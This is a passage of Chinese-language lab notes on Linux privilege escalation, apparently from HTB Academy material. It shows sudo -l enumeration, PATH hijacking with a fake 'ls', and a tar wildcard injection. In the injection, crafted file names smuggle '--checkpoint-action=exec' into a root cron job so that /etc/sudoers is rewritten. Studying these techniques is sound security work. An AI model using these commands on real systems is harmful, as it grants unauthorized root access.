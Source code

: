 > sudo 权限可以授予一个账号，以允许该账户以 root 权限允许一些命令

```shell
# 查看当前用户具有的 sudo 权限，有时候我们可能需要知道用户的密码才能列出 sudo 权限
sudo -l
	Matching Defaults entries for sysadm on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User sysadm may run the following commands on NIX02:
    (root) NOPASSWD: /usr/sbin/tcpdump
```

### 6. PATH 滥用

> PATH 是一个环境变量，指定可执行文件所在的目录集

```shell
# 查看 PATH 环境变量
echo $PATH
```

我们可以通过修改用户的 PATH 变量，来使其运行一个二进制文件

```shell
# 这个示例是将当前路径加入到 PATH 中。然后在当前路径添加一个 ls 可执行文件，就可以使用 ls
htb_student@NIX02:~$ PATH=.:${PATH}
htb_student@NIX02:~$ export PATH
htb_student@NIX02:~$ echo $PATH
htb_student@NIX02:~$ touch ls
htb_student@NIX02:~$ echo 'echo "PATH ABUSE!!"' > ls
htb_student@NIX02:~$ chmod +x ls
htb_student@NIX02:~$ ls
	PATH ABUSE!!
```

### 7. 通配符滥用

> 这里我们使用 tar 作为解释

```shell
htb_student@NIX02:~$ man tar

<SNIP>
Informative output
       --checkpoint[=N]
              每 N 条记录显示进度消息（默认 10）
       --checkpoint-action=ACTION
              在每个检查点上运行 ACTION
```

\--checkpoint-action 选项允许在到达检查点时执行 EXEC 操作（即，在 tar 命令执行后运行任意操作系统命令。）通过使用这些名称创建文件，当指定通配符时，-- checkpoint=1 和 --checkpoint-action=exec=sh root.sh 作为命令行选项传递给 tar,实践如下：

```shell
# 创建一个 cron 作业，每分钟备份 /toot 目录内容早 /tmp 中
*/01 * * * * cd /tmp && tar -zcf /tmp/backup.tar.gz *

htb_student@NIX02:~$ echo 'echo "cliff.moore ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
htb_student@NIX02:~$ echo "" > "--checkpoint-action=exec=sh root.sh"
htb_student@NIX02:~$ echo "" > --checkpoint=1

# 当执行后，我们就可以查看是否提升了权限
sudo -l
```

